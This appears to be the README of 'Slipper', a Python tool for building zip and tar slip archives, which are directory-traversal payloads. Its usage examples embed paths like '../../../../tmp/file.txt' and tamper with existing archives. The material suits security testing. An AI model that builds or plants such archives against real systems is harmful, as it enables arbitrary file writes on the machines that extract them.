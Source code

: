 
# Slipper - a tool to build zip and tar slip payloads 

Build zip and tar slip payloads (directory traversals for file writes). Details in the [snyk github](https://github.com/snyk/zip-slip-vulnerability) for known vulnerable items.


```

usage: slipper.py [-h]
                  [-p filename contents]
                  (-z ZIP_FILENAME | -t TAR_FILENAME)
                  [-i INPUT_FILENAME]

options:
  -h, --help         show this help
                     message and exit
  -p filename contents, --payload filename contents
                     add filename with
                     contents to archive
  -z ZIP_FILENAME, --zip_filename ZIP_FILENAME
                     create a zip with
                     given name
  -t TAR_FILENAME, --tar_filename TAR_FILENAME
                     create a tar with
                     given name
  -i INPUT_FILENAME, --input_filename INPUT_FILENAME
                     create a zip or tar
                     with the given
                     archive as a
                     starting point

```

Note that `-p` can be repeated to add multiple `filename, content` pairs to each archive type.


## Zip 

Supply the filename with the `-z` flag:

`python slipper.py -z foo.zip -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' -p 'required.xml' '...'`

## Zip append

Supply the filename with the `-z` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.zip -z tampered.zip -p 'new/file.txt' 'content'
```

## Tar 

Supply the filename with the `-t` flag:

`python slipper.py -t some.tar -p '../../../../tmp/file.txt' 'text in /tmp/file.txt' `

## Tar append

Supply the filename with the `-t` flag as above, and a starting point tarball with `-i`:

```
python slipper.py -i input.tar -t tampered.tar -p 'new/file.txt' 'content'
```
